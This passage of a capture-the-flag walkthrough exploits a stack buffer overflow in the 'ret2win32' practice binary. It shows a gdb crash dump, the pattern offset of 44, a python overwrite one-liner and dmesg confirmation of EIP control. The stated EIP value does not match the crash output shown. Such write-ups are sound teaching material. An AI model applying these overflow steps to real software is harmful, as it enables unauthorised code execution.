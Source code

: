 ```bash
0024| 0xffffcf98 --> 0xf7ffcff4 --> 0x33f14 
0028| 0xffffcf9c --> 0xf7c23295 (add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x2c6b6369 in ?? ()
```

We see that the **EIP** holds the value of `0x41414641`
Now lets find out the offset.

```
[ . . . ]
gdb-peda$ pattern offset 0x41414641
1094796865 found at offset: 44
```

Great! Now we can test that the overwrite is succesfully performed.
Lets exit the debugger and use our friend python once again!

```
$ python -c "print('A' * 44 + 'XXXX')" | ./ret2win32
```

Lets confirm that by using `dmesg`

```
$ sudo dmesg | grep "ret2win32" 
[ 2528.792825] ret2win32[12762]: segfault at 41414141 ip 0000000041414141 sp 00000000ffc8d060 error 14 in libc.so.6[f7c00000+22000]
[ 3820.251164] ret2win32[19756]: segfault at 6d656f6a ip 000000006d656f6a sp 00000000ffa8f4f0 error 14 in libc.so.6[f7c00000+22000]
[ 4247.031253] ret2win32[21831]: segfault at 38307830 ip 0000000038307830 sp 00000000ffdbd000 error 14 in libc.so.6[f7c00000+22000]
[ 4662.822376] ret2win32[23813]: segfault at 486c22c ip 000000000486c22c sp 00000000ff8dd2d0 error 14 in ret2win32[8048000+1000]
[ 4758.433194] ret2win32[24259]: segfault at 486c22c ip 000000000486c22c sp 00000000ffab6840 error 14 in ret2win32[8048000+1000]
[ 4776.570734] ret2win32[24334]: segfault at a ip 000000000000000a sp 00000000ff9ad164 error 14 in ret2win32[8048000+1000]
[ 7464.158324] ret2win32[37172]: segfault at 41414141 ip 0000000041414141 sp 00000000ffc03f30 error 14 in libc.so.6[f7c00000+22000]
[ 8672.349293] ret2win32[42552]: segfault at 42424242 ip 0000000042424242 sp 00000000ff828f60 error 14 in libc.so.6[f7c00000+22000]
```

Now that we are sure we can control the execution flow of this program lets analyze the program a bit more. To do that we will once again fire up gdb:

```
$ gdb -q ret2win32
Reading symbols from ret2win32...
(No debugging symbols found in ret2win32)
```

Now lets view what functions are available for us.
